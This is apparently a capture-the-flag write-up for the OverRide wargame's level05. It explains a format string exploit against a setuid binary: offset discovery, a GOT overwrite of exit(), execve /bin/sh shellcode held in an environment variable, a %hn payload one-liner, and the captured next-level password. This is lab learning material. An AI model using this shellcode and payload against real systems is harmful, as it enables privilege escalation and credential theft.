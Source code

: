 # Level05

## Solution

* There is one file in our home, ```level05```, belonging to ```level06``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* For the sake of clarity, we won't display the disassembled code, but we will describe its behaviour:

	* there is only one function, ```main()```
	* this function use ```fgets``` and stores the user input in a ```0x64``` bytes buffer
	* each capital letter in the buffer is then replaced by its corresponding small letter
	* ```printf()``` is launched with only the buffer
	* finally the functions uses ```exit()```

* What we did with all of that:

	* our goal was to perform a format string attack
	* we first had to get the offset between the address immediately after the first parameter (format string) of ```printf()``` and the effective address of the buffer : 
	```
	level05@OverRide:~$ ./level05
	bbbb %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
	bbbb 64 f7fcfac0 f7ec3add ffffd6bf ffffd6be 0 ffffffff ffffd744 f7fdb000 62626262 20782520 25207825 78252078 20782520 25207825 78252078 20782520  
	```
	* 9 blocks stand between ```bbbb``` and ```62626262``` (ascii value of ```b```)
	* on another hand we got the location of the address where ```exit()``` jumps:
	```
	08048370 <exit@plt>:
	8048370:	ff 25 e0 97 04 08    	jmp    DWORD PTR ds:0x80497e0
	8048376:	68 18 00 00 00       	push   0x18
	804837b:	e9 b0 ff ff ff       	jmp    8048330 <_init+0x38>
	```
	* we wanted to replace the value stored at ```0x80497e0``` address by the address of a shellcode (in an environment variable):
	```
	export SHELLCODE=`python -c "print('\x90' * 1024 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80')"`
	```
	* we used the same script as in ```level01``` to get an approximative address for our env variable:
	```
	level05@OverRide:~$ /var/crash/env SHELLCODE
	SHELLCODE: 0xffffd4a8
	```
	* finally we put our format string attack in a file:
	```
	python -c "print('e0970408'.decode('hex') + 'ffffffff'.decode('hex') + 'e2970408'.decode('hex') + '%08x' * 8 + '%054374x' + '%hn' + '%011085x' + '%hn')" > /var/crash/lvl05
	```
	* as ```0xffffd4a8``` is a big number, we splitted into two ```short``` integers
	* we also made sure no byte was greater then ```0x40``` or smaller ```0x5b``` as they would have been transformed by the program
	
	* finally:
	```
	cat /var/crash/lvl05 - | ./level05
	[...]
	cd ../level06
	cat .pass
	h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
	```

